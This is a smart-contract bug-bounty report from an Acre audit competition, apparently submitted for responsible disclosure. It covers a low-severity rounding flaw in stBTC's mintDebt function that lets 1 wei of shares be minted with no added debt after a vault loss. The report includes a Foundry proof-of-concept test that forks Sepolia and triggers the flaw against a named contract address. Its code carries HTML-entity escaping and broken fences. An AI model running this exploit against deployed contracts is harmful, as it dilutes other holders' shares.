 # #35014 \[SC-Low] incorrect rounding in mintdebt function might allow minimal shares dilution

## #35014 \[SC-Low] Incorrect rounding in mintDebt function might allow minimal shares dilution

**Submitted on Sep 2nd 2024 at 18:52:11 UTC by @nnez for** [**Audit Comp | Acre**](https://immunefi.com/audit-competition/boost-acre)

* **Report ID:** #35014
* **Report Type:** Smart Contract
* **Report severity:** Low
* **Target:** https://sepolia.etherscan.io/address/0x7e184179b1F95A9ca398E6a16127f06b81Cb37a3
* **Impacts:**
  * Contract fails to deliver promised returns, but doesn't lose value

### Description

## Description

The \`mintDebt\` function in the stBTC contract contains a vulnerability due to incorrect rounding when converting shares to assets. In certain situations, such as when the vault experiences a loss, this rounding error allows users to mint 1 wei of shares without any corresponding increase in assets.

The vulnerable code is in the \`mintDebt\` function:\
See: https://github.com/thesis/acre/blob/main/solidity/contracts/stBTC.sol#L304-L331\
\`\`\`solidity function mintDebt( uint256 shares, address receiver ) public whenNotPaused returns (uint256 assets) { assets = convertToAssets(shares);

```
// Increase the debt of the debtor.
currentDebt[msg.sender] +&#x3D; assets;

// Check the maximum debt allowance of the debtor.
if (currentDebt[msg.sender] &gt; allowedDebt[msg.sender]) {
    revert InsufficientDebtAllowance(
        msg.sender,
        allowedDebt[msg.sender],
        currentDebt[msg.sender]
    );
}

// ... (rest of the function)
```

} \`\`\`

The issue arises when \`convertToAssets(1)\` returns 0 due to rounding down. This allows a user to mint 1 wei of shares without increasing their debt, bypassing the debt allowance check.

Example scenario:

1. The vault experiences a small loss (e.g., 0.1%).
2. An attacker calls \`mintDebt(1, address(this))\`.
3. Due to rounding, \`convertToAssets(1)\` returns 0.
4. The debt allowance check is bypassed since 0 is added to \`currentDebt\`.
5. 1 wei of shares is minted, increasing \`totalSupply\` without increasing \`totalAssets\`.

## Impact

The primary impact of this vulnerability is the potential for share dilution. By exploiting this rounding error, an attacker can incrementally increase the total supply of shares without a corresponding increase in total assets. This leads to a gradual decrease in the value of each share.

However, the overall impact is considered low due to several factors:

1. The dilution effect is minimal, requiring many transactions to create a material impact.
2. The stBTC contract implements non-fungible shares, meaning that shares minted through this function cannot be used to redeem underlying assets from the vault.

Despite the low impact, this vulnerability represents an unintended behavior in the contract and is technically valid. Therefore, it should be fixed to prevent any unexpected loss.

### Proof of Concept

### Proof-of-Concept

The following test demonstrates the example scenario, where the total supply increases by 1 after calling \`mintDebt(1, address(this))\`, while the total assets remain unchanged.

#### Steps

1. Create a new forge project, \`forge init --no-commit --no-git --vscode\`
2. Create a new test file and paste the below test
3. Run \`forge t --match-contract AcreBoostShortRoundingTest -vv\`
4. Observe that 1 wei of share is minted via \`mintDebt\` with no corresponding increment of total assets\
   \`\`\` // SPDX-License-Identifier: UNLICENSED pragma solidity ^0.8.13;

import {Test, console} from "forge-std/Test.sol"; import "forge-std/interfaces/IERC20.sol"; import "forge-std/interfaces/IERC4626.sol";

interface IStBTC{ function mintDebt(uint256 shares, address receiver) external returns(uint); function totalSupply() external view returns(uint); function totalAssets() external view returns(uint); }

interface IAllocater{ function allocate() external; function releaseDeposit() external; function depositBalance() external view returns(uint); }

contract AcreBoostShortRoundingTest is Test {

```
error DepositNotFound();

function setUp() public {
    vm.selectFork(
        vm.createFork(&quot;https://rpc.sepolia.org&quot;)
    );
}

address stBTC &#x3D; 0x7e184179b1F95A9ca398E6a16127f06b81Cb37a3;
address tBTC &#x3D; 0x517f2982701695D4E52f1ECFBEf3ba31Df470161;

function testShortRounding() public{
    deal(tBTC, address(this), 1e18);
    IERC20(tBTC).approve(stBTC, type(uint).max);
    IERC4626(stBTC).deposit(1e18, address(this));
    
    uint currentTotalSupply &#x3D; IERC4626(stBTC).totalSupply();
    uint currentTotalAsset &#x3D; IERC4626(stBTC).totalAssets();
    
    console.log(&quot;@&gt; Starting total asset and total supply&quot;);
    console.log(&quot;@&gt; total asset: %s&quot;, currentTotalAsset);
    console.log(&quot;@&gt; total supply %s&quot;, currentTotalSupply);

    // assertEq(currentTotalAsset, currentTotalSupply);
    console.log(&quot;@&gt; Simulate loss of 0.1%&quot;);
    uint loss &#x3D; currentTotalAsset*10/10_000;
    vm.prank(stBTC);
    IERC20(tBTC).transfer(address(0xdead), loss);

    currentTotalSupply &#x3D; IERC4626(stBTC).totalSupply();
    currentTotalAsset &#x3D; IERC4626(stBTC).totalAssets();
    console.log(&quot;@&gt; total asset: %s&quot;, currentTotalAsset);
    console.log(&quot;@&gt; total supply %s&quot;, currentTotalSupply);
    
    console.log(&quot;@&gt; mintDebt for 1 wei of share&quot;);
    IStBTC(stBTC).mintDebt(1, address(this));

    currentTotalSupply &#x3D; IERC4626(stBTC).totalSupply();
    currentTotalAsset &#x3D; IERC4626(stBTC).totalAssets();
    
    console.log(&quot;@&gt; Only total supply is incremented, diluting share&#x27;s value&quot;);
    console.log(&quot;@&gt; total asset: %s&quot;, currentTotalAsset);
    console.log(&quot;@&gt; total supply %s&quot;, currentTotalSupply);
    
}
```

} \`\`\`
